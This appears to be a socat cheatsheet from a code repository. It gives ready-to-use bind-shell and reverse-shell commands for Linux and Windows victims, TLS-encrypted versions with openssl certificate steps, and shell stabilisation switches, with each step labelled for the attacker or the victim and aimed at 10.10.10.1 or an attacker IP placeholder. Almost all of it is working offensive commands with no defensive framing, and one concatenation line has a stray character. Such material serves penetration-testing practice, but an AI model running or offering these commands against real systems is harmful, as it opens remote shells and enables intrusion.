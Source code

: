# Socat-Cheatsheet
Linux Bind:
socat -d -d TCP4-LISTEN:4444 EXEC:/bin/bash

Windows Bind:
TCP4-LISTEN:4444 EXEC:'cmd.exe',pipes

Connect from Attacker:
socat - TCP4:10.10.10.1:4444

Reverse Shell:
(attacker) socat -d -d TCP4-LISTEN:4444 STDOUT
(linux victim) socat TCP4:10.10.10.1:4444 EXEC:/bin/bash
(windows victim) socat TCP4:10.10.10.1:4444 EXEC:'cmd.exe',pipes


Socat TLS Bind Shell: (pem on victim side)
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US' -out bind.crt
cat bind.key bind.crt L > bind.pem
(linux victim) socat OPENSSL-LISTEN:4444,cert=bind.pem,verify=0,fork EXEC:/bin/bash
(attacker)socat - OPENSSL:10.10.10.1:4444,verify=0
(windows victim) socat OPENSSL-LISTEN:4444,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes

Socat TLS Reverse Shell: (pem on attacker side)
(attacker) socat -d -d OPENSSL-LISTEN:4444,cert=bind.pem,verify=0,fork STDOUT
(linux victim) socat OPENSSL:10.10.10.1:4444,verify=0 EXEC:/bin/bash
(windows victim) socat OPENSSL:10.10.10.1:4444,verify=0 EXEC:'cmd.exe',pipes

Socat Linux Stability switches:
pty - allocates a pseudoterminal on the target -- part of the stabilisation process
stderr - makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
sigint - passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
setsid - creates the process in a new session
sane - stabilises the terminal, attempting to "normalise" it.

Example of above:
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

